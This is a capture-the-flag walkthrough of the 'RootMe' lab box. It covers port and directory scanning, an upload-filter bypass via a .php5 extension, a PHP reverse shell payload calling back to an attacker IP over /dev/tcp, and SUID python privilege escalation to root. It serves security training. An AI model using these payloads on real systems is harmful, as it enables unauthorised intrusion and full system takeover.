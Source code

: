 # RootMe CTF Walkthrough

## Nmap Scan

```bash
nmap -sS 10.10.183.212
```
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Service Enumeration

```bash
nmap -sC -sV -p 22,80 10.10.183.212
```
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: HackIT - Home
```

> ⚠️ Note: Although the server reports Apache `2.4.41`, the challenge expects version `2.4.29`.

## Directory Enumeration

```bash
gobuster dir -u http://10.10.183.212 -w /usr/share/wordlists/dirb/common.txt
```
```
/.hta                 (Status: 403)
/.htpasswd            (Status: 403)
/.htaccess            (Status: 403)
/css                  (Status: 301) --> /css/
/index.php            (Status: 200)
/js                   (Status: 301) --> /js/
/panel                (Status: 301) --> /panel/
/server-status        (Status: 403)
/uploads              (Status: 301) --> /uploads/
```

Discovered `/panel/` which allows file uploads.

## Initial Foothold - File Upload Bypass

The server blocks `.php` uploads, but allows alternate PHP extensions (`.php5`, `.phtml`).

### Reverse Shell Payload

`shell.php5`:
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.201.59.141/4444 0>&1'"); ?>
```

### Listener

```bash
nc -lvnp 4444
```

Accessing `http://10.10.183.212/uploads/shell.php5` triggers a reverse shell.

```
Connection received on 10.10.183.212 59852
```

## User Flag

```bash
find / -type f -name "user.txt" 2>/dev/null
cat /var/www/user.txt
```
```
*flag value*
```

## Privilege Escalation

Upgrade shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Check for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```
Found `/usr/bin/python2.7` with SUID.

Exploit via GTFOBins:

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

## Root Flag

```bash
find / -type f -name "root.txt" 2>/dev/null
cat /root/root.txt
```
```
*flag value*
```
